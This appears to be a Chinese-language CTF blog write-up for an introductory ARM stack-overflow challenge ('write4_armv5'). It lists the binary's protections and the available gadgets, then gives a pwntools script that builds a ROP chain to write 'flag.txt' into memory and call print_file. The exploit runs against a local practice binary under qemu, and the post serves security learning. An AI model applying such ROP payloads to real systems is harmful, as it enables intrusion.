 ```yaml
---
title: write_armv5
date: 2023-03-23 20:12:15
categories: 
- pwn_wp
tags: 
- pwn
- arm
- stackoverflow



---
```


arm pwn入门题。
<!-- more -->

查壳：32bit 动态 只有NX

```sh
[*] '/home/a1ph0nse/PwnPractice/OwnStudy/ARMpwn/write4_armv5/write4_armv5'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
    RUNPATH:  b'.'
```

逆向：

这次主函数有点怪，调用的pwnme是库函数的，看不到他的具体内容，不知道栈溢出偏移。

有个对`print_file`的调用和gadget:`pop {r0, pc}`还有个UsefulGadget:`STR r3, [r4] pop {r3, r4, pc}`

> A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

有一个叫print_file()的函数，只需要执行`print_file("flag.txt")`就可以cat flag。

为此我们需要将`flag.txt`写到内存中，然后控制程序执行`print_file("flag.txt")`

通过`UsefulGadget`可以将`flag.txt`写入到内存中。`pop {r3, r4, pc} -> STR r3, [r4] `，可以把`r3`中的内容存入`r4`指向的位置。但bss段只有2byte，写到前面data段开头，加上bss段才够`"flag.txt"`

**需要注意的是，由于寄存器只有4byte，因此要分两次才能写完`"flag.txt"`。**

exp:

```py
from pwn import*
context(log_level='debug',os='linux',arch='arm')
filename='write4_armv5'
elf=ELF('./'+filename)
#libc=ELF('')
# p=process('./'+filename)
p=process(["qemu-arm","-L","/usr/arm-linux-gnueabi/","-g","8888","./"+filename])
#p=process(['./ld-2.23.so','./'+filename],env={'LD_PRELOAD':'./libc-2.23.so'})
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()
    
str_r3_r4=0x000105EC
pop_r3_r4_pc=0x000105F0
pop_r0_pc=0x000105F4
print_file_addr=elf.plt['print_file']
data_addr=0x00021024

r()
payload=b'a'*0x24+p32(pop_r3_r4_pc)+b"flag"+p32(data_addr)+p32(str_r3_r4)
payload+=b".txt"+p32(data_addr+4)+p32(str_r3_r4)
payload+=p32(pop_r0_pc)*3+p32(data_addr)+p32(print_file_addr)
s(payload)

itr()

```

